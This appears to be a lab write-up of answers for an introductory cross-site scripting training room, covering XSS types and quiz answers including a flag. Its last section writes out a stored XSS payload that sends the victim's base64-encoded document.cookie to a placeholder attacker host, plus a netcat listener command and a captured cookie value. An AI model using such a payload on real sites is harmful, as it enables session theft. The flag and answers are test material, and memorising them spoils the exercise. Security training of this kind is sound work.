 # Intro to Cross-site Scripting

### Room Brief
- What does XSS stand for? `Cross-Site Scripting`

### XSS Payloads
- Which document property could contain the user's session token? `document.cookie`
- Which JavaScript method is often used as a Proof Of Concept? `alert`

### Reflected XSS
- Where in an URL is a good place to test for reflected XSS? `parameters`

### Stored XSS
- How are stored XSS payloads usually stored on a website? `database`

### DOM Based XSS
- What unsafe JavaScript method is good to look for in source code? `eval()`

### Blind XSS
- What tool can you use to test for Blind XSS? `XSS Hunter Express`
- What type of XSS is very similar to Blind XSS? `Stored XSS`

### Perfecting your payload
- What is the flag you received from level six? `THM{XSS_MASTER}`

### Practical Example (Blind XSS)
We want to steal the cookie of a member of the staff with a stored XSS.<br />
Start a netcat listener: `nc -lnvp 4444`. Now inject the following payload: `</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>` <br />
![image](https://github.com/user-attachments/assets/4cb16704-c0c6-42b9-a4bf-9b15c4c6d2a4)<br />
Now take the base64 encoded cookie and decode it: <br />
![image](https://github.com/user-attachments/assets/e5e0e863-76a7-4ea5-ab80-9046139f0082)<br />
`4AB305E55955197693F01D6F8FD2D321`



